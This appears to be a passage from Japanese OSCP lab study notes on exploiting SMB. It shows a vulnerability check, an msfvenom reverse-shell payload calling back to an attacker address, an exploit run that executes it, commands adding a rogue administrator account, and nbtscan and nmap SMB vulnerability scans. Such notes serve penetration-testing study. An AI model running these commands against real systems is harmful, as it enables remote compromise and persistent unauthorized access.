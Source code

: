```bash
python checker.py 10.11.1.5

Trying to connect to 10.11.1.5:445
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (32 bit)
netlogon: Ok (32 bit)
lsarpc: Ok (32 bit)
browser: Ok (32 bit)
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=4444 -f exe > shell.exe
```

```bash
python send_and_execute.py 10.11.1.5 shell.exe 445 browser   
```



#### FWが有効化されていてリバースシェルを張れない場合

ユーザを直接追加しRDPで接続する(3389が開いている前提)

```
service_exec(conn, r'cmd /c net user bill pass /add')
service_exec(conn, r'cmd /c net localgroup administrators bill /add') 
```

![image-20230228170231313](img/smb(139,445)/image-20230228170231313.png)



### nbtscan

有効なNetBIOS名をNetBIOSネームサービスに問い合わせる

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/7.ActiveInformationGathering]
└─$ sudo nbtscan -r 10.11.1.0/24
Doing NBT name scan for addresses from 10.11.1.0/24

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
10.11.1.5        ALICE            <server>  ALICE            00:50:56:ba:1a:c5
10.11.1.101      BREAK            <server>  BREAK            00:00:00:00:00:00
10.11.1.115      TOPHAT           <server>  TOPHAT           00:00:00:00:00:00
10.11.1.136      SUFFERANCE       <server>  SUFFERANCE       00:00:00:00:00:00
10.11.1.231      MAILMAN          <server>  MAILMAN          00:00:00:00:00:00
10.11.1.227      JD               <server>  ADMINISTRATOR    00:50:56:ba:9a:98
----
```

* rオプション：発信UDPポートを137として指定するために使用

### nmap

```
nmap -T4 -p 139,445 --script=smb-vuln* 10.11.1.5 
```

